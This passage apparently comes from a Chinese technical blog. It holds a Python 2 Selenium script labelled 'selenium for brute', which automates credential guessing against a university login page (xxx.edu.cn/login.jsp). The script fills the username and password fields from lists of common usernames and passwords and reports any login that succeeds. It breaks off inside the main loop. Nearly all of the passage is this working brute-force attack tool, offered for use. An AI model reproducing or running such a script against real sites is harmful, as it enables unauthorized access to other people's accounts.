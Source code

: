 如果有些元素不能直接定位，就尝试用 autochain，如：

```plain
#coding:utf-8
#Author:LSA
#Descript:selenium for brute
#Data:201812



import time
import sys
from selenium import webdriver
from selenium.webdriver.common import action_chains, keys
import time

reload(sys) 
sys.setdefaultencoding('utf-8')



def BruteLogin(user,pwd):


        browser.get('http://xxx.edu.cn/login.jsp')
        browser.implicitly_wait(20)

        action = action_chains.ActionChains(browser)

        elem = browser.find_element_by_name("j_username")
        elem.send_keys(user)

        action.perform()

        elem=browser.find_element_by_name("j_password")
        elem.send_keys(pwd)

        action.perform()

        elem=browser.find_element_by_name("btn_submit")
        #print browser.current_window_handle
        #elem.click()

        action.send_keys("document.getElementsByName('btn_submit')[0].click()"+keys.Keys.ENTER)
        action.perform()

        time.sleep(1)
        if '当前用户' in browser.page_source:

            print 'Login Success:' + user + '|' + pwd
            sys.exit()
        else:
            print 'LoginFaild!'


browser = webdriver.Chrome()


def main():

    with open('usernameTop500.txt','r') as fuser:
            for user in fuser.readlines():
                    u = user.strip()
                    with open('topwdglobal.txt','r') as fpwd:
```